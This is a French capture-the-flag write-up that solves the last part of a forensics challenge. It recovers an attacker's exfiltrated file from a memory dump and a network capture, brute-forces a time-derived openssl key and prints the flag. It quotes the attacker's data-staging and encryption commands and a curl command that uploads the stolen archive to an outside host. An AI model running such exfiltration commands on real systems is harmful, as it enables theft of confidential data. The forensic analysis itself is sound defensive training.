



# Exfiltration Kantik [3/3]



## Fichiers du challenge

* **network_capture.pcap** : fichier original du challenge (non modifié)
    * Voir [la partie 1 du challenge](../ExfiltrationKantik1/network_capture.pcap)
* **memory_dump.lime** : fichier original du challenge (non modifié)
    * Voir [la partie 2 du challenge](../ExfiltrationKantik2/)
* **solve-material/** : dossier contenant des fichiers ayant participé à la résolution du challenge (spoiler alert !)

## Solution

<details>
<summary>Cliquez pour dévoiler la solution</summary>

* Voir les parties 1 et 2 pour le contexte du challenge.
* Lors de l'exploration du dump mémoire avec volatility (partie 2), on extrait les commandes executées par l'attaquant (voir [bash_history.txt](solve-material/bash_history.txt)).



### Analyse des commandes d'exfiltration et récupération des données

* On trouve notamment la séquence suivante (réordonnée dans l'ordre logique) qui correspond à l'exfiltration des données :
    ```bash
    # preparing data
    mkdir -p /tmp/.backup
    mv /opt/quantum_lab /tmp/.backup/
    mv /home/rcap/Documents/2026_04_18-Rapport_Confidentiel.pdf /tmp/.backup/
    cd /tmp/.backup && tar czf data.tar.gz * 2>/dev/null
    ls -lh /tmp/.backup/
    
    # encryption to cover tracks
    export ENCRYPT_KEY=$(printf '%x' $(date +%s))
    echo $ENCRYPT_KEY
    openssl enc -aes-256-cbc -salt -in /tmp/.backup/data.tar.gz -out /tmp/.encrypted_data.enc -k $ENCRYPT_KEY
    ls -lh /tmp/.encrypted_data.enc

    # actual exfiltration
    curl -X POST -H 'Content-Type: application/octet-stream' --data-binary @/tmp/.encrypted_data.enc http://192.168.122.133:8080/upload 2>&1
    ```
* On cherche dans les fichiers ouverts en mémoire (grâce à `linux.lsof.Lsof`) si par hasard un des fichiers de la séquence ci-dessus est encore ouvert, sans succès.
* Remarquez cependant la dernière action de l'attaquant :
    ```bash
    curl -X POST -H 'Content-Type: application/octet-stream' --data-binary @/tmp/.encrypted_data.enc http://192.168.122.133:8080/upload 2>&1
    ```
* L'attaquant a uploadé le fichier chiffré sur sa propre machine ! (rappel du contexte : nous sommes sur la machine compromise, la machine distante est celle de l'attaquant)
* Retournons sur le PCAP pour trouver les paquets correspondants à cette requête.
* Une astuce pour aller plus vite : on se rend dans `Fichier => Exporter Objets => HTTP` et on retrouve bien la requête :<br>
    
    * Le fichier correct est le plus lourd (plusieurs ko VS 2 octets, pas trop de doute ici).
    * On clique sur enregistrer pour récupérer le fichier.
* Une dernière vérification :
    ```bash
    $ file upload
    upload: openssl enc'd data with salted password
    ```
* Cela correspond bien à un fichier chiffré avec openssl, on a donc bien récupéré le bon fichier.

### Décryptage du fichier

* Observons la génération de la clé (entrée complète de volatility) :
    ```bash
    1029	bash	2026-04-30 11:00:15.000000 UTC	export ENCRYPT_KEY=$(printf '%x' $(date +%s))
    ```
    * `$(date +%s)` correspond au timestamp epoch en secondes, soit le nombre de secondes écoulées depuis le 1er janvier 1970.
    * Le `printf '%x'` convertit ce nombre en hexadécimal.
* En convertissant en timestamp la date de la commande ci-dessus (avec un site [tel que celui-ci](https://www.unixtimestamp.com/)), on trouve la clé suivante : `1777546815` => `69f3363f`.
* On teste, et évidemment, le fichier obtenu est corrompu. Ce n'est pas la bonne clé...
* On essaie avec d'autres valeurs :
    * -2h pour la correspondance entre UTC et GMT+2
    * -12h et +12h pour tester la partie AM/PM
    * Une combinaison de ces deux éléments
    * Sans succès.
* Reprenons l'analyse des commandes. Il est relativement suspect qu'un attaquant arrive à exécuter en moins d'une seconde plusieurs dizaines de commandes... A vrai dire c'est tout à fait impossible, même avec de l'automatisation et l'ordinateur le plus performant au monde, on aurait des changement à minima sur les millisecondes.
* Conclusion : l'horodatage des commandes n'est pas fiable. On va devoir bruteforcer !
* On crée un [script de bruteforce](solve-material/bruteforce.py) en testant les valeurs avec un delta de quelques secondes, puis 15h après quelques exécutions infructueuses.
* On arrive à un problème intermédiaire où quelques clés fonctionnent, en produisant cependant un fichier corrompu.
* On rajoute un filtre ultime pour vérifier le header du fichier déchiffré, qui doit commencé par `1F 8B` pour un fichier gzip.
* Après quelques minutes de bruteforce, on trouve la bonne clé : `69f33465` !
    ```bash
    $ python3 bruteforce.py 
    Decryption successful with key: 69f33465
    *** WARNING : deprecated key derivation used.
    Using -iter or -pbkdf2 would be better.

    $ tar xvf data.tar.gz
    # on obtient bien le dossier quantum_lab et le document 2026_04_18-Rapport_Confidentiel.pdf
    ```
    * *Note : cela correspond à la date `Thu Apr 30 2026 10:52:21 GMT+0000`, soit difficilement devinable autrement qu'avec du bruteforce.*

### Un dernier obstacle sur la route vers le flag...

* Le fichier qui nous intéresse est clairement le rapport d'après l'énoncé.
* On remarque une chaîne en hexadécimal dans le document... Tronquée à cause de l'affichage.
* On essaie la méthode du `Ctrl+A Ctrl+C` pour copier tout le contenu du PDF, mais cela ne fonctionne pas.
* Idem en ouvrant le PDF dans un autre lecteur, comme Firefox.
* On tente de trouver un programme qui permettrait d'extraire le texte d'un PDF, avec l'autocomplétion de bash on apprend l'existence de `pdftohtml` et on teste :
    ```
    $ pdftohtml 2026_04_18-Rapport_Confidentiel.pdf 
    ```
* Miracle, cette fois on a bien toute la chaîne hexadécimale, qui correspond au flag !
* Un coup de CyberChef pour convertir l'hexadécimal en ASCII et notre long périple s'achève enfin.

### Flag

`404CTF{I_SW34R_TH1S_1S_N0T_4_J0K3_1T_R34LLY_W0RK5_B3L1EV3_M3}`

</details>